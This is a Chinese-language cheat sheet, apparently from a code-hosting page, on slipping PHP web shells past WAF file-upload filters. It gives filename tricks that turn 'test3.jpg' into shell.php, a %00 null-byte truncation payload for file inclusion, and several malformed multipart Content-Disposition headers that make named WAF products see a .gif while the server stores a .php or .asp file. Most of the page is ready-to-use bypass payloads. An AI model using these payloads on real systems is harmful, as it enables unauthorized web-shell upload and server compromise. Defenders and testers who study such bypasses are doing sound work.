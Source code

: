 ###PHP 
	
####PHP DOS漏洞的新利用：CVE-2015-4024 
	
绕过当前各种云WAF的文件上传防御策略

`“test3.jpg空格123/shell.php`WAF解析到的文件名为test3.jpg，而PHP解析到的文件名是`test3.jpg空格123/shell.php`因为`/`是目录分隔符，上传的文件名变为`shell.php`

注意：文件名前面有一个双引号，而后面不能有双引号`‘test3.jpg空格123/shell.php`测试单引号也能成功（方法同上）

####PHP  %00截断

文件包含时，如果被指定了后缀，可以用%00截断。%00 会被解析为0x00，所以导致截断的发生，成功的绕过了后缀限制。
`index.php?page=/usr/share/php/index.php%00`
有两个条件：php版本小于5.3.4和`magic_quotes_gpc`为off状态。 
如果将`magic_quotes_gpc`改为on就不能截断了，
因为开启`magic_quotes_gpc`后%00会被加上一个反斜杠转义掉。

###协议层面绕过WAF上传的检测

####协议解析不正确-文件名覆盖(一)

 1.在multipart协议中，一个文件上传块存在多个Content-Disposition，将以最后一个Content-Disposition的filename值作为上传的文件名。许多WAF解析到第一个Content-Disposition就认为协议解析完毕，获得上传的文件名，从而导致被绕过。加速乐的WAF解析得到文件名是”445.gif”，但PHP解析结果是”445.php”，导致被绕过。


```
Content-Disposition: form-data; name="file"; filename="445.gif"
```

```
Content-Disposition: form-data; name="file"; filename="445.php" 

Content-Type: image/gif
```

针对早期版本安全狗，可以多加一个filename

```
Content-Disposition: form-data; name="file"; filename="445.gif"; filename="445.php"
```

在IIS6.0下如果我们换一种书写方式，把filename放在其他地方也可以上传成功：

```
Content-Disposition: form-data; name="file"; 
Content-Type: image/gif filename="445.asp"
```

####协议解析不正确-文件名覆盖（二）

2.在一个Content-Disposition 中，存在多个filename ，协议解析应该使用最后的filename值作为文件名。如果WAF解析到filename="445.txt"认为解析到文件名，结束解析，将导致被绕过。因为后端容器解析到的文件名是445.php。

```
Content-Disposition: form-data; name="file"; filename="445.gif";filename="445.php"
```

####协议解析不正确-遗漏文件名

3.当WAF遇到`“name=”myfile";;”`时，认为没有解析到filename。而后端容器继续解析到的文件名是445.php，导致WAF被绕过。
